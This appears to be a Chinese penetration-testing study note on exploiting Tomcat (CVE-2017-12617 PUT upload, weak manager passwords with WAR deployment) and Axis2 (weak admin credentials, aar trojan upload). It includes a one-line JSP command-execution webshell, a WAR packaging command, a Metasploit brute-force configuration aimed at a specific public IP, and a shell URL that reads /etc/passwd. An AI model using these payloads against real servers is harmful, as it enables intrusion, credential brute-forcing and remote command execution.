

---
tags:
  - 中间件
create_time: 2024-10-17 15:28
modified_time: 2024-10-17 15:28
status: complete
---
> Tomcat服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。实际上Tomcat是Apache 服务器的扩展，但运行时它是独立运行的，所以当运行tomcat 时，它实际上作为一个与Apache 独立的进程单独运行的。

## 0x01 Tomcat CVE-2017-12617

- 漏洞简介及成因

  ​	Tomcat 运行在Windows 主机上，且启用了 HTTP PUT 请求方法，可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。影响版本： Apache Tomcat 7.0.0 – 7.0.81。

- 漏洞复现

1. Tomcat文件夹下的/conf/web. Xml文件插入（错误配置）

```xml
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
```

2. 访问127.0.0.1:8080，burp抓包，send to Repeater，将请求方式改为PUT，创建一个122. Jsp，并用%20或者/转义空格字符。
   添加头信息：`Content-Type: application/x-www-form-urlencoded`
   123. Jsp内容为：`<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>`


3. 访问木马文件即可获得权限


## 0x02 Tomcat弱口令+war包部署

1. 弱口令爆破

Tomcat 的默认后台路径为 /manager/html，存在身份认证可以利用burp/msf尝试后台
口令爆破。

2. 部署war包

Tomcat 支持在后台部署war文件，可以直接将webshell部署到web目录下。若后台管理
页面存在弱口令，则可以通过爆破获取密码。


3. 使用前面 BP 爆破出的用户名 tomcat 密码 tomcat 成功登陆到 Tomcat 后台


4. 准备一个 JSP 的 CMD shell：


5. 然后用jar命令打包成war包 `jar cvf shell.war shell.jsp`


6. 到 Tomcat 后台上传这个 shell. War 包：


7. 点击「Deploy」部署后，浏览器访问 shell. Jsp 木马：`http://xxxx/shell/shell.jsp`


## 0x03 axis2弱口令+部署

- Apache Axis2 是Axis的后续版本，是新一代的SOAP引擎。

1. 部署axis2



2. 部署完成后访问，一般路径为：http://ip:8080/axis2/axis2-admin/


3. Msf爆破axis2口令

```sh
use auxiliary/scanner/http/axis_login
set rhosts 183.129.189.62
set rport 62356
set username admin
set pass_file /opt/metasploitframework/embedded/framework/data/wordlists/default_pass_for_services_unhash.txt
run
```


4. Axis2后台getshell
   进入axis2后台，输入默认用户名密码admin/axis2


5. 上传制作好的aar木马


6. 访问木马所在路径进行命令执行 `http://ip/axis2/services/AxisInvoker/exec/?cmd=cat /etc/passwd`


